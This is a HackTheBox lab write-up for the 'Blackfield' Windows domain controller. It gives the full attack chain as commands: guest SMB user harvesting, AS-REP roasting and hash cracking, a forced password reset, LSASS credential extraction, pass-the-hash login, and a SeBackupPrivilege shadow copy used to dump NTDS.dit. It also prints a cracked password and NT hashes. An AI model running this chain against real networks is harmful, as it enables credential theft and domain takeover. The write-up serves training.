## Summary
Blackfield is a hard difficulty Windows machine created by [aas](https://app.hackthebox.com/users/6259) on the HackTheBox platform. SMB share access allows initial user enumeration, leading to account access with WinRM and Backup Operator privileges, which are then exploited to dump the Active Directory database.

Tools used:
- Netexec
- Smbclient
- Impacket
- Pypykatz
- Bloodhound

---
## Recon
10.129.229.17

Starting with an `nmap` scan to identify all open ports(`-p-`), and using `--min-rate=1000` to keep the discovery process from stagnating:
```shell
sudo nmap -p- --min-rate=1000 -v 10.129.229.17 -oN nmap.ports
```
Now that we know everything that's open, it's time to do a more detailed scan on the open ports:
```shell
ports=$(cat nmap.ports | awk -F/ '/open/ {b=b","$1} END {print substr(b,2)}'); sudo nmap -p $ports -v -A -min-rate=1000 -oN nmap.blackfield 10.129.229.17
```

>```
># Nmap 7.95 scan initiated Wed Nov  6 09:34:46 2024 as: nmap -p 53,88,135,389,445,593,3268,5985 -v -A -min-rate=1000 -oN nmap.blackfield 10.129.229.17
>Nmap scan report for BLACKFIELD.LOCAL (10.129.229.17)
>Host is up (0.15s latency).
>
>PORT     STATE SERVICE       VERSION
>53/tcp   open  domain        Simple DNS Plus
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-06 17:34:55Z)
>135/tcp  open  msrpc         Microsoft Windows RPC
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
>445/tcp  open  microsoft-ds?
>593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
>|_http-server-header: Microsoft-HTTPAPI/2.0
>|_http-title: Not Found
>```
### Nmap summary
- **Ports 135 and 445** - Provides access to SMB shares, common in Windows environments for file sharing.
- **Port 88 (Kerberos)** - the machine is likely a domain controller.
- **Port 5985 (WinRM)** - Allows remote management via Windows Remote Management (WinRM).
Given the open SMB and Kerberos ports, the next logical step is to enumerate SMB to check for accessible shares and domain user information.

---
## SMB enumeration
Since SMB is open enumeration begins here.

Null sessions are disabled:
```shell
nxc smb 10.129.229.17 -u '' -p '' --shares
```


Guest logins are permitted though:
```shell
nxc smb 10.129.229.17 -u 'Guest' -p '' --shares
```

IPC$ isn't useful, but profiles$ isn't a default share.

Lets take a look and see what's on it:
```shell
smbclient \\\\10.129.229.17\\profiles$ --user='Guest'%''
```

There's a lot of folders in this share, each appearing to follow a domain username convention (`FirstinitialLastname`). Manually examining each folder is impractical, so we can automate the search with `netexec`'s `spider_plus` module.
```shell
nxc smb 10.129.229.17 -u 'Guest' -p '' -M spider_plus
```

The `spider_plus` scan reveals 314 folders without files, since the folders looked to be named after domain users we can generate a list of all the file names. With smbclient I can use the `-c` flag to run a command that lists the folders, then pipe that into a file:
```shell
smbclient \\\\10.129.229.17\\profiles$ --user='Guest'%'' -c "ls" > output.txt
```

From here the output can be cleaned up:
```shell
cat output.txt | awk '{print $1}' > users.list
```


Now that we have a list of users, we need to verify that they exist. This can be done easily with kerbrute:



### Hash troubleshooting
This threw me for a loop, because if you use another method to asreproast the user the hash will crack. So, what's the difference between the hash that you get with kerbrute vs other means?
By default, `kerbrute` is collecting a `$krb5asrep$18$` hash format, which differs from `$krb5asrep$23$`. Unfortunately, tools like `hashcat` and `john` misidentify `$krb5asrep$18$` as `$krb5asrep$23$`, resulting in failed crack attempts.

The difference between `$krb5asrep$18$` and `$krb5asrep$23$` hash formats lies in the encryption types used in the Kerberos AS-REP (Authentication Service Response) encryption standards:
1. `$krb5asrep$18$`: This format represents an AS-REP encrypted using AES-256 encryption, which is specified as encryption type 18 in Kerberos. This is a more secure, modern encryption standard typically used in environments configured for stronger encryption.
2. `$krb5asrep$23$`: This format represents an AS-REP encrypted using RC4-HMAC, specified as encryption type 23 in Kerberos. This is a less secure encryption standard, and it's considered weaker because of known vulnerabilities in the RC4 algorithm. However, it may still be used in some environments for backward compatibility with older systems.
#### Summary
- `$krb5asrep$18$`: Uses **AES-256** encryption (more secure, modern).
- `$krb5asrep$23$`: Uses **RC4-HMAC** encryption (less secure, older).

### Cracking the hash
To obtain a crackable hash with `kerbrute` the `--downgrade` flag can be used to collect an `$krb5asrep$23$`, compatible with `hashcat` and `john`:
```shell
kerbrute userenum -d blackfield.local --dc 10.129.229.17 users.real --downgrade
```


If hashcat still has issues with cracking the hash, or if you don't have access to kerbrute, you can use impacket to do the AS-Rep roast:
``` shell
# Capture AS-REP hash for offline cracking
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.129.149.133 'Blackfield/support:'
```

Or with netexec:
``` shell
# Alternative AS-REP capture using netexec (nxc ldap module)
nxc ldap 10.129.229.17 -u 'support' -p '' --asreproast roast.nxc
```

With the hash captured it can be cracked with hashcat like below:
```
hashcat -a 0 -m 18200 support.asrep /opt/SecLists/rockyou.txt
```


```
support / #00^BlackKnight
```

With the hash cracked, we can verify that we have control over the account with netexec:
```
nxc ldap 10.129.229.17 -u 'support' -p '#00^BlackKnight'
```


---
## Establishing a foothold
Now that we have an account that can authenticate with ldap we can make a bloodhound dump using netexec:
```shell
# Initiate full BloodHound data collection using all collection methods
nxc ldap 10.129.229.17 -u 'support' -p '#00^BlackKnight' --dns-server=10.129.229.17 --bloodhound --collection all
```

Analysis of the BloodHound output reveals that the `support` user holds `ForceChangePassword` privileges over the `audit2020` account, enabling us to reset the password and gain control of the account.



```shell
net rpc password "audit2020" "Password123" -U "BLACKFIELD"/"support"%"#00^BlackKnight" -S "10.129.229.17"
```

### SMB enumeration as audit2020
Checking smb access with our new user shows that we now have access to the forensic share:



Exploring the share we find memory analysis tools and the output of those tools saved as zip files within the `memory_analysis` folder:



I know from previous experience that passwords can be recovered from lsass, so the next step is to download the zip file and attempt to gather passwords or hashes from it.
You can get a primer on lsass here: 
https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service

Attempting to download `lsass.zip` using the standard `smbclient` tool wasn't working for me, so `Impacket`'s `smbclient.py` was used instead.
```shell
smbclient.py blackfield/audit2020:'Password123'@10.129.229.17
```

#### Recovering passwords with Pypykatz
Once `lsass.zip` is copied locally, it can be extracted with `unzip`. From there, `pypykatz` can be used to parse the LSASS dump and retrieve credentials:
```shell
# Unzip the lsass memory dump 
unzip lsass.zip 
# Extract credentials from the LSASS dump using pypykatz 
pypykatz lsa minidump lsass.DMP > lsass.extracted
```

Examining the extracted data reveals NT hashes for several users:


```
svc_backup // 9658d1d1dcd9250115e2205d9f48400d
administrator // 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
dc01$ // b624dc83a27cc29da11d9bf25efea796
```

Attempting to authenticate with the hashes show that only `svc_backup`'s is valid:



Checking WinRM shows that `svc_backup` can authenticate over it, meaning we can get a foothold on the server with `evil-winrm`:



```shell
# Access the server with evil-winrm using svc_backup's NT hash
evil-winrm -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d -i 10.129.229.17
```


And once in, we can collect the user flag!

---
## Privilege escalation
Running `whoami /priv` reveals that the `svc_backup` user holds the `SeBackupPrivilege`, granting indirect access to the `NTDS.dit` file:



With this privilege, we can retrieve NT hashes for all domain accounts, enabling privilege escalation to Administrator. A summary of the path is below:
- Create a script to use with diskshadow
- Upload the script
- Run Diskshadow with the script
- Coby ntds.dit with robocopy
- Download ntds.dit
- Download the system hive
- Dump the hashes with impacket secretsdump.py

Detailed steps for leveraging `SeBackupPrivilege` to elevate privileges and access sensitive files are documented in [HackTricks' Privileged Groups and Token Privileges guide](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators).

First, create a script with the following contents and copy it over:
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
This script enables a temporary volume shadow copy, allowing access to the `NTDS.dit` file and without disrupting normal system operations.

Then execute the script with diskshadow:
```powershell
diskshadow /s script.txt
```


Using `robocopy` in backup mode (`/b`), we transfer `NTDS.dit` from the shadow copy to our working directory:
```powershell
robocopy /b E:\Windows\ntds . ntds.dit
```


After copying `NTDS.dit`, the system hive is also required for extracting password hashes:
```powershell
# Save system hive to a local file
reg save HKLM\SYSTEM "system.save"
```

Once both files are copied to a local directory, they can be downloaded via `evil-winrm`:



Once the files are downloaded all of the domain's hashes can be extracted with impacket's `secretsdump.py`:
```
secretsdump.py -ntds ntds.dit -system system.save LOCAL > hashes.ntds
```

With the hashes dumped, we can use `evil-winrm` to login as the Administrator and get the root flag, completing the box:

